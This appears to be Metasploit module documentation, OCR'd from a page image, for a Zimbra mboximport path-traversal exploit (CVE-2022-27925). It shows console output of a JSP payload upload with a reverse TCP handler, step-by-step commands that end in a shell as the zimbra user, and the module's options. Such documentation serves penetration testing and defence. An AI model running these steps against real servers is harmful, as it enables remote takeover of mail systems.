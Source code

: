 There's no easy way that I see to check for the patch (and the only vulnerable version I have is
quite a bit older), so attempts to exploit patched versions will likely result in a warning message
that the target may not vulnerable:

```
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/gauca.jsp
[-] Exploit aborted due to failure: unknown: Payload was not uploaded, the server probably isn't vulnerable
[!] This exploit may require manual cleanup of '../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp' on the target
[*] Exploit completed, but no session was created.
```

## Verification Steps
1. `use exploit/linux/http/zimbra_mboximport_cve_2022_27925`
1. `set RHOSTS <TARGET HOSTS>`
1. `set LHOST <Address of Attacking Machine>`
1. `exploit`
1. You should get a shell as the `zimbra` user.

## Options

### `TARGET_PATH`

The path (traversal included) where the payload will extract to. The default is the webroot, which is usually pretty safe.

### `TARGET_FILENAME`

The actual filename. It really should end with `.jsp`, otherwise it won't execute.

By default, it's a random string with `.jsp` on the end. That should work fine, especially
because we can't overwrite files and don't want to use the same payload name more than once.

### `TARGET_USERNAME`

The username included in the `mboximport` request - any valid username works, `admin` is usually fine.

## Scenarios

### Zimbra Collaboration Suite Network Edition 8.8.12 Patch 6 on Ubuntu 18.04
